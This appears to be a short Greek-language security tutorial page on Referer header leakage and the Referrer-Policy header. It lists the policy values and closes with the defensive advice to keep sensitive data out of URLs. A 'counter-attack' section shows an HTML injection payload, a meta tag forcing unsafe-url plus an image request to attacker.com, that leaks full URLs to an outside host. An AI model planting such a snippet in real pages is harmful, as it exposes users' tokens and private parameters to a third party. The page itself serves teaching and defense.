 {{#include ./banners/hacktricks-training.md}}

# Referrer headers and policy

Referrer είναι η κεφαλίδα που χρησιμοποιούν οι φυλλομετρητές για να υποδείξουν ποια ήταν η προηγούμενη σελίδα που επισκέφτηκε ο χρήστης.

## Ευαίσθητες πληροφορίες που διαρρέουν

Αν σε κάποιο σημείο μέσα σε μια ιστοσελίδα οποιαδήποτε ευαίσθητη πληροφορία βρίσκεται σε παραμέτρους GET αιτήματος, αν η σελίδα περιέχει συνδέσμους σε εξωτερικές πηγές ή αν ένας επιτιθέμενος είναι σε θέση να κάνει/προτείνει (κοινωνική μηχανική) στον χρήστη να επισκεφθεί μια διεύθυνση URL που ελέγχεται από τον επιτιθέμενο. Θα μπορούσε να είναι σε θέση να εξάγει τις ευαίσθητες πληροφορίες μέσα στο τελευταίο GET αίτημα.

## Mitigation

Μπορείτε να κάνετε τον φυλλομετρητή να ακολουθεί μια **Referrer-policy** που θα μπορούσε να **αποφύγει** την αποστολή ευαίσθητων πληροφοριών σε άλλες διαδικτυακές εφαρμογές:
```
Referrer-Policy: no-referrer
Referrer-Policy: no-referrer-when-downgrade
Referrer-Policy: origin
Referrer-Policy: origin-when-cross-origin
Referrer-Policy: same-origin
Referrer-Policy: strict-origin
Referrer-Policy: strict-origin-when-cross-origin
Referrer-Policy: unsafe-url
```
## Αντεπίθεση

Μπορείτε να παρακάμψετε αυτόν τον κανόνα χρησιμοποιώντας μια ετικέτα HTML meta (ο επιτιθέμενος πρέπει να εκμεταλλευτεί και μια ένεση HTML):
```markup
<meta name="referrer" content="unsafe-url">
<img src="https://attacker.com">
```
## Άμυνα

Ποτέ μην τοποθετείτε ευαίσθητα δεδομένα μέσα σε παραμέτρους GET ή διαδρομές στη διεύθυνση URL.

{{#include ./banners/hacktricks-training.md}}

